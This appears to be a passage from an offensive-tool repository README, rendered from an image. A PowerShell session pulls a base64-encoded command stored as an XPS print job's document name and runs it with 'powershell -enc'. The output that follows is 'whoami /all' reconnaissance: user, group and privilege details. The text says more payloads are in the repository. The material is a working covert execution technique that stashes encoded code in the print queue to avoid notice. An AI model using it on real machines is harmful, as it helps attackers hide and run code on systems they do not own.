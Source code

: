 ```
BranchOfficeOfflineLogSizeMB :
WorkflowPolicy               :

PS C:\Users\regular> ((get-printjob XPS).documentname -join "")
WwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQAkAHgAPQB7AHcAaABvAGEAbQBpACAALwBhAGwAbAA7AGgAbwBzAHQAbgBhAG0AZQB9ADsAJAB4AC4AaQBuAHYAbwBrAGUAKAApAA==

PS C:\Users\regular> powershell -enc ((get-printjob XPS).documentname -join "")

USER INFORMATION
----------------

User Name               SID
======================= ==============================================
desktop-printingfun\regular S-1-5-21-1829223926-2430627930-1039442773-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

DESKTOP-PRINTINGFUN
```
Several payloads are available in the repository.
